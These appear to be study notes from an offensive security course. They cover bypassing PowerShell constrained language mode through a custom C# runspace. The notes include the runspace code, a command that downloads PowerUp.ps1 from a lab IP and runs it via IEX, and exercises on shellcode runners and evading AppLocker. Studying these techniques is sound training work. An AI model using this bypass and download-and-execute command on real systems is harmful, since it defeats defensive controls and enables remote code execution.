 ### 8.3.1.1 Exercises
1. Verify that constrained language mode is enabled for a PowerShell prompt executed in the 
context of the “student” user.

2. Check if our existing PowerShell shellcode runner is stopped once constrained language 
mode is enabled.

# custom runspaces

PowerShell.exe is essentially a GUI application handling input and output. The real functionality 
lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to 
create a runspace.

```c#
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

we can also use powerup instead o fth eabove script using the run spaces

```C#
String cmd = "(New-Object 
System.Net.WebClient).DownloadString('http://192.168.119.120/PowerUp.ps1') | IEX; 
Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";

```

### 8.3.2.1 Exercises
1. Recreate the application shown in this section to set up a custom runspace and execute 
arbitrary PowerShell code without limitations.
2. Modify the C# code to implement our PowerShell shellcode runner.
3. Create an AppLocker deny rule for 
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe and verify that this does 
not hinder our custom runspace

# 8.3.3 Powershell CLM bypass


